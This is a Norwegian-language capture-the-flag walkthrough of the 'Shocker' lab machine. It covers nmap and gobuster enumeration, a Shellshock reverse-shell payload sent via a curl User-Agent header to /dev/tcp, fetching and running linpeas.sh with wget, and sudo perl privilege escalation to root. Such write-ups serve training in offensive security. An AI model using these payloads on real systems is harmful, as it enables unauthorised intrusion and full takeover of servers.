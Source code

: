 # Shocker
### nmap

```
nmap -sV -sC 10.10.10.56
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-14 20:19 CET
Nmap scan report for 10.10.10.56
Host is up (0.058s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.82 seconds
```

### Hva vi gjør:
Det første vi gjør er å gå inn på nettsiden, der ser vi ikke mye annet dette:
<img src="website.png">
<p>Deretter kjører vi gobuster for å finne directories i nettsiden. Vi finner cgi-bin, server-status og /icons/READme.</p>
Jeg vil gjerne se mer av cgi-bin, så jeg kjører gobuster videre fra /cgi-bin/

```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x sh,pl
```
Vi finner kjapt: <b>user.sh</b>.
<p>Med litt kjapp google søk finner vi denne <a href="https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock">artikklen</a></p>
Vi kjører en test:

```
curl -H "User-agent: myuseragent" http://10.10.10.56/cgi-bin/user.sh

vulnerable

Content-Type: text/plain
Just an uptime test script
```
Dette betyr vi kan injecte commands til maskinen og vi gjør da et reverse shell!

```
ncat -lvnp 1234

curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/xx.xx.xx.xx/1234 0>&1" http://localhost/cgi-bin/hello.sh
```

Og vi har shell!
<p>
<img src="shell.png">
<p>
Vi får user flag i /home/shelly.
  
```
cat user.txt
2ec24e11320026xxxxxxxxxx
```
  
### Root
  Vi overfører linpeas.sh til maskinen.
  #### Vår maskin:
```
  python3 -m http.server
 ```
  #### Målets maskin:
  ```
  wget xx.xx.xx.xx:8000/linpeas.sh
  chmod +x linpeas.sh
  ./linpeas.sh
  ```
Linpeas forteller at shelly kan kjøre perl uten passord som sudo. <a href="https://gtfobins.github.io/">GTFObins</a> er en fantastisk side for å finne exploits for root esculation for slikt, og vi finner en kommando der som gir oss root.
  
  ```
  perl -e 'exec "/bin/sh";'
  whoami
  root
  cd /root
  cat root.txt
  xxxxxxxxxxxxxxxxxxxxxxxxxx
  ```
  
